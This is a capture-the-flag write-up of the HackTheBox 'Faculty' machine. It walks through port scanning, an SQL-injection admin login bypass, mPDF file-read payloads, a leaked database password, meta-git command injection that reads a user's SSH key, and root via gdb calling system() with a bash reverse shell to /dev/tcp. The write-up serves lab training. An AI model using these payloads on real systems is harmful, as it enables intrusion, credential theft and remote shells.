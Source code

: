 +++
author = "Khaled Ngm"
title = "Faculty write-up (HackTheBox)"
date = "2022-10-14"
description = ""
+++

# Faculty write-up HackTheBox
![faculty](/images/faculty.png)

### 1. Port Scan Enumuration
### 2. Directory Fuzzing
### 3. Exploitation
### 4. Privilege Escalation
* ### USER
* ### ROOT

## Port Scan (Nmap)
* First We will scan target with nmap ``nmap -sV -sC 10.10.11.169``
* I found two open ports ``ssh`` and ``http``
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-13 15:19 EDT
Nmap scan report for faculty.htb (10.10.11.169)
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: School Faculty Scheduling System
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.91 seconds

```
## Directory Fuzzing 
I started to Fuzz directory using diresearch using
``python3 dirsearch.py -u http://faculty.htb``

I have found these directories .
```
Target: http://faculty.htb/

[15:22:15] Starting: 
[15:22:38] 301 -  178B  - /admin  ->  http://faculty.htb/admin/             
[15:22:39] 302 -   14KB - /admin/  ->  login.php                            
[15:22:39] 302 -   14KB - /admin/?/login  ->  login.php                     
[15:22:39] 200 -    3KB - /admin/home.php                                   
[15:22:39] 200 -   17B  - /admin/download.php                               
[15:22:39] 200 -    5KB - /admin/login.php                                  
[15:22:39] 302 -   14KB - /admin/index.php  ->  login.php                   
[15:23:06] 200 -    3KB - /header.php                                       
[15:23:08] 302 -   12KB - /index.php  ->  login.php                         
[15:23:12] 200 -    5KB - /login.php                                        
[15:23:37] 500 -    0B  - /test.php  
```
## Exploitation
* lets navigate into ``http://faculty.htb/admin/login``
* I tried to inject input with single qoute and I got this error .

 ![admin](/images/admin.png)
* I saved this path as draft ``/var/www/scheduling/admin/admin_class.php ``
* I used this payload to login as admin  ``admin'or 1=1#`` and this was successful .
* After a minuites of checking functions I found **download** button at **Faculty list** that use **MPDF library** that convert html to pdf file .
* After a minutes of enum I found that it's affected with local file inclusion check [here](https://www.exploit-db.com/exploits/50995) .

* I decoded this payload ``<annotation file="/var/www/scheduling/admin/admin_class.php" content=""  icon="Graph" title="Attached File: " pos-x="195" />`` 
   to urlencode then base64 and replaced it with burp proxy and I checkded file content that contain ``db_connect.php``.
* I repeated this step to get db password . 

   ![chef](/images/chef.png)

* pass > Co.met06aci.dly53ro.per

* I also read  ``/etc/passwd`` and I got 2 users 
``` 
gbyolo
developer
```  
* Lets try to connect to gbyolo using ssh ``ssh gbyolo@10.10.11.169`` with ``Co.met06aci.dly53ro.per`` password ... success ! .

## Privilege Escalation (User)

* I used ``sudo -l`` command to see if this user can run any command with high priv .

```
-bash-5.0$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```
* If we take a look , we see that gbyolo can run meta-git as developer and I found [RCE](https://hackerone.com/reports/728040) for meta-git module we can use to esclate our priv .

* lets run module as developer user ``sudo -u developer meta-git clone 'ngm||whoami'`` .
![meta-git](/images/git.png)

* We can now get ssh key that located at ``~/.ssh/id_rsa`` using command ``sudo -u developer meta-git clone 'ngm||cat ~/.ssh/id_rsa'`` , I copied ssh key to ``dev.key`` with permission ``chmod 600 dev.key``.

* I used ``ssh -i dev.key developer@10.10.11.169`` to login ssh .

## Privilege Escalation (Root)

* First I executed [linpeas.sh](https://github.com/topics/linpeas) script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts .
* I have found files belongs to root annd readable by beveloper user .
![linpeas](/images/linpeas.png)
* then I tried to a process that’s run by root and also has the system context  then I found that ``python3`` running with ``pid 710`` .
* I attached process to gdb using ``gdb -p 710`` command .
* Lets call system context and run commands with high privileges .
* You won’t be able to see the output of the command executed but it will be executed by that process (so get a rev shell) using ``call (void)system("bash -c 'bash -i >& /dev/tcp/{host}/{port} 0>&1'")`` or you can give SUID permission to ``/bin/bash`` using ``call (void)system("chmod u+s /bin/bash")`` then ``bash -p`` , now we are root .

# Thanks
